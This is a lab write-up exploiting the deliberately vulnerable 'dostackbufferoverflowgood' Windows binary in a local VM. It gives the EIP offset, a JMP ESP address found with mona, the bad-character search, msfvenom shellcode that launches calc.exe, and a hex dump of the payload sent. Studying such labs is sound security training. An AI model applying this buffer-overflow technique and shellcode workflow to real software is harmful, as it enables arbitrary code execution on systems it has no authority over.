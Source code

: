 # Dostackbufferoverflowgood
https://github.com/justinsteven/dostackbufferoverflowgood

## Solution
### 1. Set up exe in Windows VM
The IP address of the VM is 192.168.34.253.
![UI Screenshot](99%20-%20Training/Box%20Write-ups/Binary_Exploitation/BOF_dostackbufferoverflowgood/img/1.png)
Test out the program in Kali:
```bash
kali@kali:~$ nc 192.168.34.253 31337
test
Hello test!!!
test
Hello test!!!
test2
Hello test2!!!
exit
Bye!
```

### 2. Find EIP location
```bash
kali@kali:~$ python -c "from pwn import cyclic; print(cyclic(1000))" | nc 192.168.34.253 31337
```
Over on the debugger, it can be seen the application has crashed with an access violation on `0x616D6261`.
![UI Screenshot](99%20-%20Training/Box%20Write-ups/Binary_Exploitation/BOF_dostackbufferoverflowgood/img/2.png)
Next, get the offset using this address.
```bash
kali@kali:~$ python -c "from pwn import cyclic_find; print(cyclic_find(0x616D6261))"
146
```

### 3. Find JMP ESP instruction
This can be done a number of ways. A common way of doing it these days is using Immunity Debugger's mona plugin which can search for instructions in a debugged executable.  
Use `!mona modules` to ensure there is lacking protection on the binary being analysed.
```bash
0BADF00D   !mona modules

           ---------- Mona command started on 2020-11-09 17:24:27 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x70ee0000 | 0x70fc0000 | 0x000e0000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [ucrtbase.DLL] (C:\Windows\system32\ucrtbase.DLL)
0BADF00D    0x70e40000 | 0x70e44000 | 0x00004000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [api-ms-win-crt-convert-l1-1-0.dll] (C:\Windows\system32\api-ms-win-crt-convert-l1-1-0.dll)
0BADF00D    0x75440000 | 0x75515000 | 0x000d5000 | True   | True    | True  |  True    | True   | 6.1.7601.18015 [kernel32.dll] (C:\Windows\system32\kernel32.dll)
0BADF00D    0x76f30000 | 0x76fdc000 | 0x000ac000 | True   | True    | True  |  True    | True   | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\system32\msvcrt.dll)
0BADF00D    0x08040000 | 0x08048000 | 0x00008000 | False  | True    | False |  False   | False  | -1.0- [dostackbufferoverflowgood.exe] (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
```
This shows that rebase and ASLR are false for the executable. Search for FFE4 (jmp esp) instructions with `!mona jmp -r esp -m dostackbufferoverflowgood.exe`:
```bash
0BADF00D   !mona jmp -r esp -m dostackbufferoverflowgood.exe

           ---------- Mona command started on 2020-11-09 17:39:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules dostackbufferoverflowgood.exe
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module dostackbufferoverflowgood.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D   [+] Results :
080414C3     0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
080416BF     0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
0BADF00D       Found a total of 2 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.154000
```
Add `0x080414c3` as jmp_esp.

### 4. Identify bad characters
Here is an array of characters that can be tried with the application.
```python
chars += ""
chars += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
The goal is to ensure any characters that stop this string being processed by the application are removed. This is an iterative process.
1. Send the entire string to the application
2. See if the entire string was copied into memory successfully by following ESP in dump
3. If not, remove the offending characters
4. Repeat.  
  
![UI Screenshot](99%20-%20Training/Box%20Write-ups/Binary_Exploitation/BOF_dostackbufferoverflowgood/img/3.png)
In this instance, there is 1 bad character, `0x0a`, which didn't make it into the dump.

### 5. Generate some shellcode
```bash
kali@kali:~/Desktop/dostack$ msfvenom --arch x86 --platform windows -p windows/exec CMD=calc.exe -b '\x0a' -f python > shellcode.py
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
```
Note: due to shikata ga nai encoding, the GetPC routine it uses will result in data being added near the top of the stack, which can affect instructions at ESP. A small NOP sled is added to account for this.  
The exploit is structured like so:
```
[PADDING * 146] + [JMP ESP] + [32 BYTE NOPSLED] + [CALC SHELLCODE]
```

### 6. Exploit the application
```bash
kali@kali:~/Desktop/dostack$ python exploit.py 
[+] Opening connection to 192.168.34.253 on port 31337: Done
[DEBUG] Sent 0x193 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000090  41 41 c3 14  04 08 90 90  90 90 90 90  90 90 90 90  │AA··│····│····│····│
    000000a0  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    000000b0  90 90 90 90  90 90 b8 29  31 fd dc db  d8 d9 74 24  │····│···)│1···│··t$│
    000000c0  f4 5a 2b c9  b1 31 31 42  13 83 ea fc  03 42 26 d3  │·Z+·│·11B│····│·B&·│
    000000d0  08 20 d0 91  f3 d9 20 f6  7a 3c 11 36  18 34 01 86  │· ··│·· ·│z<·6│·4··│
    000000e0  6a 18 ad 6d  3e 89 26 03  97 be 8f ae  c1 f1 10 82  │j··m│>·&·│····│····│
    000000f0  32 93 92 d9  66 73 ab 11  7b 72 ec 4c  76 26 a5 1b  │2···│fs··│{r·L│v&··│
    00000100  25 d7 c2 56  f6 5c 98 77  7e 80 68 79  af 17 e3 20  │%··V│·\·w│~·hy│··· │
    00000110  6f 99 20 59  26 81 25 64  f0 3a 9d 12  03 eb ec db  │o· Y│&·%d│·:··│····│
    00000120  a8 d2 c1 29  b0 13 e5 d1  c7 6d 16 6f  d0 a9 65 ab  │···)│····│·m·o│··e·│
    00000130  55 2a cd 38  cd 96 ec ed  88 5d e2 5a  de 3a e6 5d  │U*·8│····│·]·Z│·:·]│
    00000140  33 31 12 d5  b2 96 93 ad  90 32 f8 76  b8 63 a4 d9  │31··│····│·2·v│·c··│
    00000150  c5 74 07 85  63 fe a5 d2  19 5d a3 25  af db 81 26  │·t··│c···│·]·%│···&│
    00000160  af e3 b5 4e  9e 68 5a 08  1f bb 1f e6  55 e6 09 6f  │···N│·hZ·│····│U··o│
    00000170  30 72 08 f2  c3 a8 4e 0b  40 59 2e e8  58 28 2b b4  │0r··│··N·│@Y.·│X(+·│
    00000180  de c0 41 a5  8a e6 f6 c6  9e 84 99 54  42 65 3c dd  │··A·│····│···T│Be<·│
    00000190  e1 79 0a                                            │·y·│
    00000193
[*] Closed connection to 192.168.34.253 port 31337
```
This pops a calculator on the Windows VM.
![UI Screenshot](99%20-%20Training/Box%20Write-ups/Binary_Exploitation/BOF_dostackbufferoverflowgood/img/4.png)